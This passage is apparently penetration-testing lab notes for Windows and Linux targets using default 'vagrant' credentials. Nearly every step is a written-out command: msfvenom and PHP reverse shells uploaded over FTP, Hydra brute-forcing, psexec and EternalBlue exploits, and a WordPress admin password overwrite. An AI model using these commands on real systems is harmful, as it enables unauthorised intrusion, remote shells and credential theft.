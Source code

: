 		    - Now login using valid user cred
		    - `ftp 10.2.29.246` Use administartor:vagrant
		    - Create one .asp and upload to ftp
		    - `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.24.4 LPORT=1234 -f asp > shell.aspx`
		    - `ftp 10.2.29.246` Use vagrant:vagrant
		    - `put shell.aspx`
		    - Go to msfconsole session
		    - `use multi/handler set payload windows/shell/reverse_tcp set LHOST 10.10.24.4 set LPORT 1234`
		    - Open the browser and navigate to 10.2.29.246/shell.aspx
		    - got reverse shell
		-  **OpenSSH**
		    - `nmap -sV -sC -p 22 10.2.16.83`
		    - `hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh`
		    - `hydra -l administrator /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh`
		    - `ssh [vagrant@10.2.16.83](<mailto:vagrant@10.2.16.83>)` use vagrant:vagrant
		    - `net localgroup administrators`
		    - `msfconsole`
		    - `use auxiliary/scanner/ssh/ssh_login setg RHOST 10.2.16.83 setg RHOSTS 10.2.16.83 set USERNAME vagrant set PASSWORD vagrant run session -u 1`
		    - Got meterpreter sessions
	    - **SMB**
		    - `nmap -sV -sC -p 445 10.2.26.45`
		    - `hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb`
		    - `hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb`
		    - `smbclient -L 10.2.26.45 -U vagrant`
		    - `smbmap -u vagrant -p vagrant -H 10.2.26.45`
		    - `enum4linux -u vagrant -p vagrant -U 10.2.26.45`
		    - `locate [psexec.py](<http://psexec.py/>) cp /usr/share/doc/python3-impacket/examples/psexec.py . chmod +x [psexec.py](<http://psexec.py/>)`
		    - `python3 [psexec.py](<http://psexec.py/>) [Administrator@10.2.26.45](<mailto:Administrator@10.2.26.45>)`
		    - `msfconsole -q use exploit/windows/smb/psexec set RHOSTS 10.2.26.45 set SMBUser Administrator set SMBPass vagrant set payload windows/x64/meterpreter/reverse_tcp run`
		    - `use exploit/windows/smb/ms17_010_eternalblue options set RHOSTS 10.2.26.45 run`
	    -  **MYSQL**
		    - `nmap -sV -sC -p 3306,8585 10.2.26.45`
		    - `use auxiliary/scanner/mysql/mysql_login set RHOSTS 10.2.26.45 set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt run`
		    - `mysql -u root -p -h 10.2.26.45 - root password is empty`
		    - `show databases; use wordpress; show tables; select * from wp_users;`
		    - `UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin'; - change password`
		    - `exploit eternalblue`
		    - `use exploit/windows/smb/ms17_010_eternalblue set RHOSTS 10.2.26.45 run`
		    - `sysinfo`
		    - `cd / cd wamp dir cd www\\\\wordpress cat wp-config.php`
		- 
	- Linux Exploitation
	    - **vsFTPd**
		    - `nmap -sV -sC -p 21 10.2.20.205`
		    - `ftp 10.2.20.205` - anonymous login
		    - `use auxiliary/scanner/smtp/smtp_enum setg RHOSTS 10.2.20.205 set UNIXONLY true run`
		    - `hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.2.20.205 ftp` got cred service: service
		    - `ftp 10.2.20.205` use service: service
		    - Upload a **`PHP`** reverse shell via FTP to the `/dav` directory and launch it with the browser
		    - `ls -al /usr/share/webshells/php/ cp /usr/share/webshells/php/php-reverse-shell.php . mv php-reverse-shell.php shell.php vim shell.php`
		    - `nc -nvlp 1234`
		    - Login with FTP again and upload the shell.php
		    - `cd / cd /var/www/ put shell.php`
		    - Open the browser [http://10.2.20.205/dav/](http://10.2.20.205/dav/)
		    - run shell.php
		    - Got reverse shell in netcat listener